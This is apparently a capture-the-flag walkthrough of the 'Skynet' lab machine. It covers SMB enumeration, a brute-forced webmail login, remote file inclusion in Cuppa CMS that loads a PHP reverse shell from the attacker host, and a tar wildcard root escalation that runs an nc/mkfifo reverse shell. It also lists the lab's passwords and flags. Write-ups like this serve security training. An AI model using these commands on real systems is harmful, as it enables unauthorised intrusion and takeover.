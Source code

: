 # Skynet

> A vulnerable Terminator themed Linux machine.

<br>

### Process:

1. discovery and scanning:
	- find if machine is up: `sudo nmap -sn 10.10.60.122` = yes
	- port scan machine:
		- `sudo nmap -T4 10.10.60.122`
		- `sudo nmap -T4 -A -p 22,80,110,139,143,445 10.10.60.122`
2. enumeration:
	- check out the website on port 80
	- enumerate SMB:
		- `smbmap -H 10.10.60.122` - found "anonymous" share with read permissions
		- `smbclient \\\\10.10.160.122\\anonymous` - found "attention.txt" and "log1.txt"
			- "log1.txt" contains a list of possible passwords
	- try bruteforcing pop3 login with passwords in "log1.txt":
		- find miles username: `sudo nmap -p 445 --script=smb-enum-users 10.10.160.122` = "milesdyson"
	- try to find email login on web page:
		- `gobuster dir -u http://10.10.60.122 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
		- found: "/squirrelmail"
	- use Burp intruder to try and login using "log1.txt" as password payload list
		- miles password for emails = **cyborg007haloterminator**
3. exploitation:
	- login to miles email account at "http://10.10.160.122/squirrelmail"
	- found new SMB password in emails = *)s{A&2Z=F^n_E.B\`*
	- use SMB password to login to miles SMB share:
		- `smbclient \\\\10.10.60.122\\milesdyson -U "milesdyson"` -> [new SMB password]
	- look through SMB share
		- found "important.txt" file that contains a CMS URL "/45kra24zxs28v3yd"
	- go to new CMS URL found 
	- name of hidden directory = **45kra24zxs28v3yd**
	- name of vulnerability when you include a remote file for malicious purposes = **remote file inclusion**
	- run goBuster on hidden directory:
		- `gobuster dir -u http://10.10.60.122/45kra24zxs28v3yd -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
		- found "adminstrator" directory which is a login to Cuppa CMS
	- use searchsploit to look for exploits:
		- `searchsploit cuppa cms`
		- found a RFI vulnerability in "[target]/alerts/alertConfigField.php?urlConfig=[RFI]"
	- exploit RFI vulnerability
		- create PHP reverse shell and host it on attacker machine
		- navigate to shell via URL on target: `http://10.10.60.122/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.11.31.198:8080/shell.php`
4. post-exploitation:
	- stablise shell: `bash -i` -> `python -c 'import pty;pty.spawn("/bin/bash")'`
	- find the user flag:
		- `cd /home/milesdyson` -> `cat user.txt`
		- user flag = **7ce5c2109a40f958099283600a9aae807**
	- esclate privileges:
		- load "linpeas.sh" onto system
		- host on attack machine and on targert machine: `cd /var/www/html` -> `wget http://10.11.31.198:8080/linpeas.sh`
		- run linpeas: `chmod u+x linpeas.sh` -> `./linpeas.sh`
		- found "backup.sh" which can be run with root privileges 
		- the file creates a backup of the "/var/www/html" directory, but uses tar wildcards (`*`) to do so, which means you can use checkpoint actions to execute commands
		- setup reverse shell action to execute:
			```bash
			echo "rm /tmp/f;mkfifo /tmp/f|/bin/sh -i 2>&1|nc 10.11.31.198 4444 > /tmp/f" > shell.sh
			touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
			touch "/var/www/html--checkpoint=1"
			```
		- setup netcat listener on attack machine: `nc -lvnp 4444`
		- run the "backup.sh" script: `./home/milesdyson/backups/backup.sh`
	- find root flag:
		- `cd /root` -> `cat root.txt`
		- root flag = **3f0372db24753accc7179a282cd6a949**
